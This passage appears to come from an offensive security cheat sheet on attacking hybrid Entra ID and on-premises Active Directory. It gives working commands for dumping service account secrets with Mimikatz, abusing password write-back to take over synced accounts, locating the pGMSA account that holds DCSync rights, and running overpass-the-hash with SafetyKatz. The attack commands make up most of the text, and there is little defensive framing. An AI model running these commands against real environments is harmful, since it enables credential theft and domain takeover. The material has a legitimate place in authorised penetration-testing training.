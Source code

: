 #### Find user and groups assigned to the application
```
. .\Get-ApplicationProxyAssignedUsersAndGroups.ps1
Get-ApplicationProxyAssignedUsersAndGroups -ObjectId <OBJECT ID OF SERVICE PRINCIPAL>
```

#### Extract secrets of service account
- After compromising the application
```
Invoke-Mimikatz -Command '"token::elevate" "lsadump::secrets"'
```

### Password write back
- Cloud sync supports password write-back to on-prem AD.
	- If a user with password reset role in Entra ID is compromised, they can reset password for synced user. If user has permissions in the on-prem AD.
	- Default security groups (for Example Domain admin) and their members are not synchronized.
		- `Admincount 1` accounts are not synced!
- There is no way to check if password writeback is enabled as a normal user.

#### Check synced users
- Browse to the Users tab in the portal and add a filter `On-premises sync enabled` to `yes`.

#### Reset the users password
- Reset the users password in the portal or [Check here]()

#### Start session as the user and check access
```
netexec smb <DC IP> -u <USER> -p <PASSWORD> -d <DOMAIN>

runas /netonly /user:<DOMAIN>\<USER> cmd
```

### DCSync with GMSA
- Is like the `MSOL_` user. The `pGMSA_<INSTALLATIONID` user has DCSync permissions
- Requires access to the Domain Controller

#### Retrieve GMSA account
```
Import-Module ADModule-master\Microsoft.ActiveDirectory.Management.dll
Import-Module ADModule-master\ActiveDirectory\ActiveDirectory.psd1

Get-ADServiceAccount -Filter * -Server <DOMAIN> | Where-Object -Property SamAccountName -Match pGMSA
```

#### Check who can request the password
```
Get-ADServiceAccount -Identity pGMSA_<ID> -Properties * -Server <DC IP> | select
PrincipalsAllowedToRetrieveManagedPassword
```

#### Overpass the Hash - Start session as DC account
```
Loader.exe -Path SafetyKatz.exe -args "sekurlsa::opassth /user:<DC ACCOUNT>$
/domain:<DOMAIN> /rc4:<NTLM HASH> /dc:<DC FQDN> /run:cmd.exe" "exit"
```
